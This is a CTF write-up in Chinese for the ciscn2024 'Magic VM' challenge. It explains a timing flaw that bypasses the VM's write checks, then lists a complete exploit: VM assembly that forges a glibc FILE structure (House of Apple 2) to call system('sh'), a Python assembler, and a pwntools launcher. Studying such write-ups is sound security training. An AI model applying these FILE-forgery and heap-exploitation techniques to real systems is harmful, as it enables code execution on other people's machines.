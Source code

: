 ```yaml
---
title: ciscn2024 - Magic VM 
date: 2024/5/21 00:48:00
tags:
    - vm
    - House of Apple 2
    - libc2.35
    - tls
thumbnail: /assets/ciscn2024/magicvm.png
excerpt: CTF题解Magic VM利用时序漏洞绕过检测，伪造FILE实现代码执行。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.7|

## 解题思路

没去符号表的vm题，费了好大劲在黑灯开始时想通了怎么利用，然后来不及了

{% note success fa-check %}
我在[这里](https://github.com/RocketMaDev/CTFWriteup/tree/main/ciscn2024/MagicVMPsrc)会放逆好的伪代码，看起来清晰多了
{% endnote %}

这道题的漏洞在于绕过时序，从代码读入到实际写入，实际上需要3个周期，
而所有合法性检查是在`vm_id::run`中做的，那意味着，我们只要使数据变化慢于检测，
即可绕过，具体原理如图所示

![bypass](/assets/ciscn2024/magicvm.png)

理解完了这个原理之后，思路就很清楚了：先获取libc和mmap的地址，然后在data段伪造FILE，
设置好apple的触发条件，最后把伪造的FILE挂到`_IO_list_all`下，等程序自然退出就可以拿shell

为了自动化生成这长长的脚本，我写了对应的汇编和汇编器附在文后

## Extra Bonus

1. 我们拿到的mmap段紧邻另一段，而在里面有libc，有自身所在的地址，这不是巧合，它是TLS段
2. `cout <<`也有"hook"可用，在这个libstdc++中，在执行输出时，会解析函数，即导入函数到got表中，
那么由于它没有开Full RELRO，所以我们还可以写got表来跳转任意代码，但前提是我们能拿到libstdc++的地址
3. 由于延迟赋值的特性（见上图），所以在`mov reg, imm`和`mov ds:[reg], reg`这样的语句中间必须有一个等待周期，
可以`nop`，或者先处理其他寄存器


## EXPLOIT

```asm
; exp.asm
inline:
    mov r0, 0x46e8
    mov r1, 0x4740
    mov r0, ds:[r0]             ; main_arena
    mov r1, ds:[r1]             ; my_vm.data + 0x0x4740
    sub r0, 0x21ac80            ; libc_base
    sub r1, 0x4740              ; my_vm.data

    mov r2, 0x0
    mov r3, 0x28
    mov ds:[r2], 0x3b68732020   ; data->_flags = '  sh;'
    mov ds:[r3], 0x1            ; data->_IO_write_ptr = 1

    mov r2, 0xa0
    mov r3, 0xe0
    mov ds:[r2], r1             ; data->_wide_data = data
    mov ds:[r3], r1             ; data->_wide_vtable = data

    mov r2, r0
    mov r3, 0x68
    add r2, 0x50d70
    nop
    mov ds:[r3], r2             ; data->doallocate = system

    mov r2, r0
    mov r3, 0xd8
    add r2, 0x2170c0
    nop
    mov ds:[r3], r2             ; data->_vtable = _IO_wfile_jumps

    add r0, 0x21b680            ; r0 = _IO_list_all
    nop
    sub r0, r1
    mov r2, 0x0
    mov r2, r0
    nop
    mov ds:[r2], r1             ; *_IO_list_all = data
    nop
    nop
```

```python
# assembler.py
from pwn import *
import re
def assemble(lines:list[str]) -> bytes:
    payload = b''
    pre = ' *'
    post = r'(?: *;.*)?'
    def wrap_match(restr:str, line:str) -> re.Match:
        return re.match(f'{pre}{restr}{post}', line)

    for i, line in enumerate(lines):
        if match := wrap_match(r'mov r(\d), (0x[0-9a-f]+)', line):
            # mov reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'mov r(\d), ds:\[r(\d)\]', line):
            # mov reg, ds
            reg = int(match.group(1))
            ds = int(match.group(2))
            payload += b'\x05\x0e' + p8(reg) + p8(ds)
        elif match := wrap_match(r'mov ds:\[r(\d)\], (0x[0-9a-f]+)', line):
            # mov ds, imm
            ds = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x07' + p8(ds) + p64(imm)
        elif match := wrap_match(r'mov ds:\[r(\d)\], r(\d)', line):
            # mov ds, reg
            ds = int(match.group(1))
            reg = int(match.group(2))
            payload += b'\x05\x0b' + p8(ds) + p8(reg)
        elif match := wrap_match(r'mov r(\d), r(\d)', line):
            # mov reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x05\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), r(\d)', line):
            # sub reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x02\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x02\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'add r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x01\x06' + p8(reg) + p64(imm)
        elif match := wrap_match('nop', line):
            # nop
            payload += b'\x0b'
        else:
            debug(f'\'{line.strip()}\' @L#{i + 1} can not match')
    debug(f'generating payload {payload}')
    return payload

if __name__ == '__main__':
    import sys
    if len(sys.argv) < 2:
        print('Require file name!')
        exit(0)
    filename = sys.argv[1]
    with open(filename, 'r') as file:
        bytecode = assemble(file.readlines())
        print(bytecode)
```

```python
# vm.py
from pwn import *
from assembler import assemble
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './vm'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1c84)\nc')
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)

    with open('exp.asm', 'r') as file:
        bytecode = assemble(file.readlines())
    sh.send(bytecode)

    sh.clean()
    sh.interactive()
```
